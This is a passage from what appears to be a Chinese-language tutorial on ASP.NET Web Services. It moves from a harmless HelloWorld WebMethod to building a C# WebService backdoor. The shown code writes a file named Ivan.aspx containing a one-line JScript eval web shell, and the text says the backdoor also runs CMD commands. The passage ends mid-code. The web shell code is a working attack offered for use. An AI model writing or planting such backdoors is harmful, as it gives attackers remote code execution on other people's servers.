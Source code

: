 在Web Service程序中，如果一个公共方法想被外界访问调用的话，就需要加上WebMethod，加上[WebMethod]属性的公有方法就可以被访问，而没有加这个属性的方法就是不能被访问的。将 WebMethod 属性 (Attribute) 附加到 Public 方法表示希望将该方法公开为 XML Web services 的一部分，它具备6个属性：Description 、EnableSession、MessageName、TransactionOption、CacheDuration、BufferResponse，为了更清晰的表述WebService请看下面这段代码

```
namespace test

`{`

[WebService(Namespace = "http://tempuri.org/")]

[WebServiceBinding(ConformsTo = WsiProfiles.BasicProfile1_1)]

[System.ComponentModel.ToolboxItem(false)]

// 若要允许使用 ASP.NET AJAX 从脚本中调用此 Web 服务，请取消注释以下行。

// [System.Web.Script.Services.ScriptService]

public class WebService2 : System.Web.Services.WebService

`{`

[WebMethod]

public string HelloWorld()

`{`

return "Hello World";

`}`

`}`

`}`
```

[![](https://p2.ssl.qhimg.com/t014821bdaca86f206d.png)](https://p2.ssl.qhimg.com/t014821bdaca86f206d.png)

这里声明成一个字符串类型的公共方法HelloWorld，如果此时在方法体内实现创建aspx文件，保存内容为一句话小马的话那么这个WebService就变成了服务后门，依照这个推理就产生了C#版本的WebService小马，实现了两个功能，一个是创建文件，还有一个是执行CMD命令，核心代码如下：

```
[System.ComponentModel.ToolboxItem(false)]

[WebMethod]

/**

Create A BackDoor

**/

public string webShell()

`{`

StreamWriter wickedly = File.CreateText(HttpContext.Current.Server.MapPath("Ivan.aspx"));

wickedly.Write("&lt;%@ Page Language=\"Jscript\"%&gt;&lt;%eval(Request.Item[\"Ivan\"],\"unsafe\");%&gt;");

wickedly.Flush();

```